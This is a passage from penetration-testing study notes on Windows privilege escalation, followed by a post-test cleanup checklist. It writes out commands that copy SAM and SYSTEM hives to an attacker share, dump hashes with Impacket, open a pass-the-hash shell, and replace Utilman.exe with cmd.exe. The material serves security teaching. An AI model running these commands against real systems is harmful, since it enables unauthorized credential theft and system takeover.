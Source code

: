   ```shell
  copy C:\Users\<MY_USER>\sam.hive    \\<ATTACKER_IP>\public\
  copy C:\Users\<MY_USER>\system.hive \\<ATTACKER_IP>\public\
  ```
  We can then decrypt the admin password hash with Impacket :  
  ```shell
  # Use Impacket to extract the Administrator password hash (and all other users) from the SAM and system hives
  cd tmpshare/
  python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
  
  # use Impacket to get a shell on the admin account with a pass-the-hash attack
  python3.9 /opt/impacket/examples/psexec.py -hashes <ADMIN_HASH> administrator@<TARGET_IP>
  ``` 


- **SeTakeOwnership**  
  This privilege allows the user to take ownership of any object on the system (files, registry keys...).  
  This allows easy privilege escalation, for example by taking ownership of an executable used by a service running as SYSTEM and modifying it to a reverse shell.  
  Let's take ownership of the built-in `Utilman.exe` executable that runs with SYSTEM privilege.  
  ```shell
  cd C:\Windows\System32
  takeown /f Utilman.exe                   # take ownership of the executable
  icacls Utilman.exe /grant <USER>:F       # grant ourselves permissions over that executable
  copy cmd.exe Utilman.exe                 # replace the executable by a cmd.exe shell
  ```

- **SeImpersonate / SeAssignPrimaryToken**  
  These privileges allow a process to impersonate other users and act on their behalf, by spawning processes under the security context of this user.  
  This is useful for a FTP server for example, so it can impersonate the user accessing it to show only what it can access.  
  This privilege can be abused using **RogueWinRM** attacking the BITS service to obtain a reverse shell.


#### Unpatched Software

Unpatched software can contain some vulnerabilities that can be exploited for privilege escalation.  
We can list most of the installed programs with their versions with : `wmic product get name,version,vendor`.  
From these versions, we can check on Google or ExploitDB if any has some known vulnerabilities.


## Cleanup and Restoration

After a penetration test, all traces should be removed so the system is back to its original state.  

- **Persistence removal**
  - created user accounts (from local machines and the domain controller)
  - API keys and tokens (for example for AWS cloud services)
  - remote access tools and backdoors (metasploit payloads, keyloggers, shells...)
  - created scheduled tasks
  - modifications to `HKEY_LOCAL_MACHINE` and `HKEY_CURRENT_USER` Windows registry to execute a shell on boot
  - created hidden files and directories (folders used by the tester to store and execute programs) 
